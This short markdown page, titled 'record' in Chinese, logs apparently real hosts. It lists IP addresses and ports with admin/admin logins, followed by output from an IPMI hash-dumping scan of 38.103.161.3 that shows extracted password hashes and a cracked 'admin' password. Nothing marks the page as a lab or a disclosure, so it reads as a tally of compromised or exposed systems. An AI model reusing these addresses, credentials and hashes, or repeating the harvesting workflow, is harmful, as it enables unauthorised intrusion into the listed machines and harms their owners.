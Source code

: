 # 记录

|ip | 端口|用户 | 密码|
|---|-------|------|------|
|`121.57.20.11`|80|admin|admin|
|`ftp://123.122.12.236`|23|

ipmi
[+] 38.103.161.3:623 - IPMI - Hash found: ADMIN:2b7a35261f980100be6dda68966c6ad1aee295ad213a6b33abe3b299250d5a2649e2e40ee052e53600000000000000000000000000000000140541444d494e:0c13a18eaae099918770de32ce540aeefcede7e9
[+] 38.103.161.3:623 - IPMI - Hash found: :81f96a188f980100308f85160c37a4b42885694827a1468906c31ea4c5e602a53121b48993020cad000000000000000000000000000000001400:91b7f04f24f1618733ab63bbb1a190dea20fa49b
[+] 38.103.161.3:623 - IPMI - Hash for user '' matches password 'admin'
